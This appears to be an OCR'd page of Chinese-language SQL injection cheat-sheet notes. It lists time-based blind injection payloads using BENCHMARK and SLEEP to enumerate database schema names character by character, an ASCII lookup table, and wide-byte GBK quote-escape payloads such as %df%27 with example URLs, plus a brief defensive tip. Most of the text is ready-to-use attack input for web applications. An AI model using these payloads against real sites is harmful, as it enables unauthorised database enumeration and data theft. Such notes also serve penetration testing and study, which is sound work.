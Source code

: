 ```
延迟三秒:
BENCHMARK(100000,SHA1(1))


payload:
if(xxxxx,1,sleep(2))
UNION SELECT IF(SUBSTR((SELECT GROUP_CONCAT(schema_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.SCHEMATA),i,1) < j,BENCHMARK(100000,SHA1(1)),0)
UNION SELECT IF(SUBSTR((SELECT GROUP_CONCAT(schema_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.SCHEMATA),i,1) < j,SLEEP(10),0)
```
#### 盲注常用ascii
```
w=119
f=102
r=114
o=111
t=116
u=117
5=53
1=49
```
### 特殊注入：
#### 引号逃逸：
##### 宽字节逃逸：
```
观察网页编码：
<meta charset="gb2312" />

GBK编码，它的编码范围是0x8140~0xFEFE（不包括xx7F），在遇到%df(ascii(223))>ascii(128)时自动拼接%5c，因此吃掉'\'，而%27、%20小于ascii(128)的字符就保留了。
补充：
1.GB2312是被GBK兼容的，它的高位范围是0xA1~0xF7，低位范围是0xA1~0xFE（0x5C不在该范围内），因此不能使用编码吃掉%5c。其它的宽字符集也是一样的分析过程，要吃掉%5c，只需要低位中包含正常的0x5c就行了。
2.Mysql编码与过滤函数推荐使用mysql_real_escape_string()，mysql_set_charset()。
3.转编码函数同样会引起宽字节注入，即使使用了安全的设置函数。
常用payload：
%df%27
%e5%5c%27
%e9%8c%a6
index.php?name=1%df'
index.php?name=1%a1'
index.php?name=1%aa'
```

##### 转义逃逸

```
利用\转义
payload:
index.php?name=%**%5c%5c%27
```
